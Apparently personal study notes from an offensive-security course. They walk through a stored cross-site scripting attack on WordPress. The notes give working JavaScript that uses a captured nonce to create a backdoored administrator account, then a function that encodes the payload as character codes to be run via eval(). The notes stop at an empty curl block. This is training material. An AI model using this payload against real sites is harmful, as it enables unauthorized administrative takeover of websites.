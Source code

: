 Now that we've dynamically retrieved the nonce, we can craft the main function responsible for creating the new admin user:
``` JavaScript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```
+ Highlighted in this function is the new backdoored admin account, just after the nonce we obtained previously.
+ If our attack succeeds, we'll be able to gain administrative access to the entire WordPress installation

To ensure that our JavaScript payload will be handled correctly by Burp and the target application, we need to first minify it, then encode it 
+ To minify our attack code into a one-liner, we can navigate to JS Compress: https://jscompress.com/
![[Pasted image 20230813112356.png]]
+ Once we have clicked on _Compress JavaScript_, we'll copy the output and save it locally

As a final attack step, we are going to **encode** the minified JavaScript code, so any bad characters won't interfere with sending the payload. We can do this using the following function:
``` JavaScript
function encode_to_javascript(string) {
    var input = string
    var output = '';
	for(pos = 0; pos < input.length; pos++) {
		output += input.charCodeAt(pos);
		if(pos != (input.length - 1)) {
			output += ",";
		}
	}
    return output;
}

let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
+ The _encode_to_javascript_ function will parse the minified JS string parameter and convert each character into the corresponding UTF-16 integer code using the _charCodeAt_ method

Will run the function from the browser's console:
![[Pasted image 20230813112531.png]]
+ We are going to decode and execute the encoded string by first decoding the string with the _fromCharCode_ method, then running it via the _eval()_ method 
+ Once we have copied the encoded string, we can insert it with the following **curl** command and launch the attack:
```
```